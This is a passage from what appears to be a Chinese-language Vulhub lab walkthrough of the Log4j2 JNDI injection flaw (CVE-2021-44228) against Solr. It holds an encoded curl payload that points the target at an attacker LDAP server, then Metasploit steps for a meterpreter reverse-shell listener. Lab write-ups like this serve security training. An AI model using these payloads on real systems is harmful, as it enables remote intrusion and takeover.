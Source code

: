 执行 payload

```
┌──(root㉿kali)-[~]
└─# curl http://centos7-6.local:8983/solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%3a%31%33%38%39%2f%6c%68%75%6d%61%74%7d
```

![执行 payload](./../../../../images/Vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E6%89%A7%E8%A1%8C%20payload.png)

`成功接收到 shell。`

**将 shell 返回给 MSF，方便后期操作**

开启 msf

```
┌──(root㉿kali)-[~]
└─# msfdb run
```

加载 handler

```
msf6 > use exploit/multi/handler
```

显示 handler 选项

```
msf6 exploit(multi/handler) > show options
```

设置 reverse_tcp

```
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
```

设置 lhost

```
msf6 exploit(multi/handler) > set lhost kali.local
```

设置 lport

```
msf6 exploit(multi/handler) > set lport 6666
```

> 4444 端口被 nc 占用。

运行
